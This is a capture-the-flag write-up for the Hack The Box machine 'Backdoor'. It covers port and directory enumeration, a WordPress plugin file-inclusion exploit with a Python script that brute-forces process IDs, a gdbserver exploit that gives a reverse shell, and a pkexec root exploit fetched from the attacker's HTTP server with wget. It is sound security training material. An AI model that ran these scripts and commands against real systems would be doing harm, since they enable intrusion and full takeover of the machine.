


## Enumeration

The IP is 10.10.11.125, I will add it to _/etc/hosts_:


Let's start off by enumerating the open ports:

```bash
$ nmap -p- --open -sS -v -n -Pn backdoor.htb -oG allPorts

# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.125 ()   Status: Up
Host: 10.10.11.125 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 1337/open/tcp//waste///   Ignored State: closed (65532)
```
  
It returns ports 22, 80 and 1337 as being open. 
  
I will run a _nmap_ script to list the services and their versions that are running on each open port
  
```bash
$ nmap -p22,80,1337 -sCV backdoor.htb -oN targeted

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

If you try to access via browser you will get an innocent website, where you can't do much.

Let's try to list subdirectories using _wfuzz_:

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -u "backdoor.htb/FUZZ" --hc=404 -c

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000238:   301        9 L      28 W       317 Ch      "wp-content"
000000765:   301        9 L      28 W       318 Ch      "wp-includes"
000006941:   301        9 L      28 W       315 Ch      "wp-admin"
```

The subdirectory _wp-content_ is not visible to us, _wp-includes_ contains the plugins and themes, although we can't see the contents of the files.
Playing around with _wp-admin_ there doesn't seem to be any default credentials set.

So, knowing that we are dealing with _Wordpress_ as the CMS, we can try running _wpscan_ to list vulnerable plugins.
You will need an API token, which you can get [here](wpscan.com).

```bash
$ wpscan --url http://backdoor.htb/ --enumerate vp --plugins-detection aggressive --api-token <token>

[+] ebook-download
 | Location: http://backdoor.htb/wp-content/plugins/ebook-download/
 | Last Updated: 2020-03-12T12:52:00.000Z
 | Readme: http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | [!] The version is out of date, the latest version is 1.5
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Ebook Download < 1.2 - Directory Traversal
 |     Fixed in: 1.2
 |     References:
 |      - https://wpscan.com/vulnerability/13d5d17a-00a8-441e-bda1-2fd2b4158a6c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10924
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
```

## Foothold

We can see that there is a vulnerable version of the plugin **Ebook Download**. If we search for it on _searchsploit_, we fill find an exploit with **id 39575**.
I will download it on my computer using:

`$ searchsploit -m 39575`

If we open the text file, we can see that the plugin is vulnerable to Local File Inclusion,
using the following url, where _path_ is a valid route in the target machine.

> _http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=path_

We can list running processes using the path /proc/_pid_/cmdline, where pid is a valid process ID.
Using a Python script to iterate through the PIDs, we can find which are running.

```python
#!/bin/python3

import signal
import requests
import sys

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Stopping the process...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Global variables
main_url = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/"
empty_resp = 125

p1 = log.progress("Brute force")
p1.status("Starting brute force attack")

for pid in range(0,5000):
    p1.status("Testing pid %d" % (pid))
    content = (requests.get(main_url + str(pid) + "/cmdline")).content
    if (len(content) > empty_resp):
        print(f"[+] Process {pid} found")
        print(content)
        print("--------------------------------------------\n")
```

We see that there's a service called _gdbserver_ running on the open port 1337:
  
```bash
[+] Process 850 found
b'/proc/850/cmdline/proc/850/cmdline/proc/850/cmdline/bin/sh\x00-c\x00while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;";done\x00<script>window.close()</script>'
```
  
If we look for it on _searchsploit_ we will find a vulnerability with **id 50539**.
If we run it and follow the instructions provided, we can get a reverse shell as _user_ and view the flag.


## Privilege Escalation
Once we are inside the victim's machine, we can enumerate binaries with the SUID permission set:
```bash
user@Backdoor:/home/user$ find / -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/su
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/screen
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/pkexec
```

We can see that the binary _pkexec_ is available, which has been compromised recently under the _CVE-2021-4034_ vulnerability.
There are many exploits out there, I have used [this one](https://github.com/Almorabea/pkexec-exploit).
Now it's simply a matter of setting up a Python server so you can share the file with the victim's machine and run it.

```
$ python3 -m http.server 80
```

```
user@Backdoor:/home/user$ wget 10.10.16.43:80/CVE-2021-4034.py
user@Backdoor:/home/user$ python3 CVE-2021-4034.py
```

Just like that, we have become _root_:

